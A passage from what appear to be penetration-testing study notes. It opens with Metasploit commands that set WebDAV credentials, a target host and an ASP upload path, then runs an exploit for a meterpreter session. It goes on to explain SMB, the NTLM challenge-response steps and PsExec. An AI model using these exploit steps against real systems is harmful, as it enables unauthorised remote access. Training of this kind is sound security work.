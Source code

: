 2. **Configure the module**: We'll need to provide the username/password for the WebDav server using the `HttpUsername`/`HttpPassword` settings. Also, need to set the target address with `RHOSTS` and then set the `PATH` option to the filename and location where you want to upload the asp file to:
```
set HttpUsername person1
set HttpPassword password9881
set RHOST 10.65.4.88
set PATH /webdav/metasploit.asp
```
3. **Run the exploit**: This should start the meterpreter session
```
exploit
```



## SMB-Exploitation-with-PsExec

SMB (Server Message Block) is a network file-sharing protocol used primarily for sharing files, printers, and other peripherals within a local network. Initially, SMB ran over NetBIOS using port 139 but has since migrated to operate over TCP on port 445. SAMBA is the open-source implementation of SMB on Linux, which allows interoperability with Windows systems, enabling file and device sharing.
##### SMB Authentication Process

The SMB protocol uses two levels of authentication:
- **User Authentication**: Users provide a username and password to access a network resource.
- **Share Authentication**: Users provide a password to access specific, restricted shares.

Both methods rely on the NTLM (NT LAN Manager) challenge-response protocol to securely authenticate without sending the password over the network:
1. **Client Sends Username**: The client sends its username to the server.
	- *Client sends `"user1"` to the server.*
2. **Server Sends a Challenge**: The server responds with a unique, random challenge back to the client.
	- *Server sends `XYZ789` to the client.*
3. **Client Hashes the Password**: The client hashes the user’s password using the NTLM algorithm.
	- *Password `MyPassword123` is hashed to `8F29A0B676...`.*
4. **Client Encrypts the Challenge**: The client uses the NTLM-hashed password as a key to encrypt the server’s challenge. This is symmetric encryption, where the same secret (hashed password) is shared between client and server.
	- *The client encrypts `XYZ789` with the hash `8F29A0B676...` , producing `D4E8F6A2...`.*
5. **Client Sends Encrypted Response**: The client sends the challenge encrypted using the NTLM hashed password  challenge back.
	- *Client sends `D4E8F6A2...` to the server.*
6. **Server Verifies the Response**: The server encrypts the challenge it sent using the NTLM hash of the password for the account as a key, just like the client did. It then compares the result to the client’s response. If they match, authentication succeeds.
	- *The server encrypts `XYZ789` using the stored hash. If the result matches `D4E8F6A2...`, authentication succeeds.*

##### PsExec 

PsExec is a command-line utility from Microsoft's Sysinternals suite that enables the execution of commands and processes on remote Windows systems. Designed as a lightweight alternative to Telnet, it facilitates command-line interactions with remote targets without the need for manual installation of client software. To use PsExec, download the PsTools suite from Microsoft and run the executable; no installation is required.
